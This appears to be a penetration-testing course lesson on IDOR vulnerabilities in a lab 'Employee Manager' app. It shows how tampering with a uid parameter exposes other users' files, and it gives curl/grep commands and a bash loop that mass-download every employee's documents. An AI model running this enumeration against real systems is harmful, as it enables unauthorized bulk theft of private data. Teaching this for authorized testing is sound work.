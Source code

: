 # Mass IDOR Enumeration

Exploiting IDOR vulnerabilities is easy in some instances but can be very challenging in others. Once we identify a potential IDOR, we can start testing it with basic techniques to see whether it would expose any other data. As for advanced IDOR attacks, we need to better understand how the web application works, how it calculates its object references, and how its access control system works to be able to perform advanced attacks that may not be exploitable with basic techniques.

Let's start discussing various techniques of exploiting IDOR vulnerabilities, from basic enumeration to mass data gathering, to user privilege escalation.

***

## Insecure Parameters

Let's start with a basic example that showcases a typical IDOR vulnerability. The exercise below is an `Employee Manager` web application that hosts employee records:

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Our web application assumes that we are logged in as an employee with user id `uid=1` to simplify things. This would require us to log in with credentials in a real web application, but the rest of the attack would be the same. Once we click on `Documents`, we are redirected to

`/documents.php`:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>http://SERVER_IP:PORT/documents.php?uid=1</p></figcaption></figure>

When we get to the `Documents` page, we see several documents that belong to our user. These can be files uploaded by our user or files set for us by another department (e.g., HR Department). Checking the file links, we see that they have individual names:

```html
/documents/Invoice_1_09_2021.pdf
/documents/Report_1_10_2021.pdf
```

We see that the files have a predictable naming pattern, as the file names appear to be using the user `uid` and the month/year as part of the file name, which may allow us to fuzz files for other users. This is the most basic type of IDOR vulnerability and is called `static file IDOR`. However, to successfully fuzz other files, we would assume that they all start with `Invoice` or `Report`, which may reveal some files but not all. So, let's look for a more solid IDOR vulnerability.

We see that the page is setting our `uid` with a `GET` parameter in the URL as (`documents.php?uid=1`). If the web application uses this `uid` GET parameter as a direct reference to the employee records it should show, we may be able to view other employees' documents by simply changing this value. If the back-end end of the web application `does` have a proper access control system, we will get some form of `Access Denied`. However, given that the web application passes as our `uid` in clear text as a direct reference, this may indicate poor web application design, leading to arbitrary access to employee records.

When we try changing the `uid` to `?uid=2`, we don't notice any difference in the page output, as we are still getting the same list of documents, and may assume that it still returns our own documents:

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>http://SERVER_IP:PORT/documents.php?uid=2</p></figcaption></figure>

However, `we must be attentive to the page details during any web pentest` and always keep an eye on the source code and page size. If we look at the linked files, or if we click on them to view them, we will notice that these are indeed different files, which appear to be the documents belonging to the employee with `uid=2`:

```html
/documents/Invoice_2_08_2020.pdf
/documents/Report_2_12_2020.pdf
```

This is a common mistake found in web applications suffering from IDOR vulnerabilities, as they place the parameter that controls which user documents to show under our control while having no access control system on the back-end. Another example is using a filter parameter to only display a specific user's documents (e.g. `uid_filter=1`), which can also be manipulated to show other users' documents or even completely removed to show all documents at once.

***

## Mass Enumeration

We can try manually accessing other employee documents with `uid=3`, `uid=4`, and so on. However, manually accessing files is not efficient in a real work environment with hundreds or thousands of employees. So, we can either use a tool like `Burp Intruder` or `ZAP Fuzzer` to retrieve all files or write a small bash script to download all files, which is what we will do.

We can click on \[`CTRL+SHIFT+C`] in Firefox to enable the `element inspector`, and then click on any of the links to view their HTML source code, and we will get the following:

```html
<li class='pure-tree_link'><a href='/documents/Invoice_3_06_2020.pdf' target='_blank'>Invoice</a></li>
<li class='pure-tree_link'><a href='/documents/Report_3_01_2020.pdf' target='_blank'>Report</a></li>
```

We can pick any unique word to be able to `grep` the link of the file. In our case, we see that each link starts with `<li class='pure-tree_link'>`, so we may `curl` the page and `grep` for this line, as follows:

```shell-session
$ curl -s "http://SERVER_IP:PORT/documents.php?uid=3" | grep "<li class='pure-tree_link'>"

<li class='pure-tree_link'><a href='/documents/Invoice_3_06_2020.pdf' target='_blank'>Invoice</a></li>
<li class='pure-tree_link'><a href='/documents/Report_3_01_2020.pdf' target='_blank'>Report</a></li>
```

As we can see, we were able to capture the document links successfully. We may now use specific bash commands to trim the extra parts and only get the document links in the output. However, it is a better practice to use a `Regex` pattern that matches strings between `/document` and `.pdf`, which we can use with `grep` to only get the document links, as follows:

```shell-session
$ curl -s "http://SERVER_IP:PORT/documents.php?uid=3" | grep -oP "\/documents.*?.pdf"

/documents/Invoice_3_06_2020.pdf
/documents/Report_3_01_2020.pdf
```

Now, we can use a simple `for` loop to loop over the `uid` parameter and return the document of all employees, and then use `wget` to download each document link:

```bash
#!/bin/bash

url="http://SERVER_IP:PORT"

for i in {1..10}; do
        for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do
                wget -q $url/$link
        done
done
```

When we run the script, it will download all documents from all employees with `uids` between 1-10, thus successfully exploiting the IDOR vulnerability to mass enumerate the documents of all employees. This script is one example of how we can achieve the same objective. Try using a tool like Burp Intruder or ZAP Fuzzer, or write another Bash or PowerShell script to download all documents.
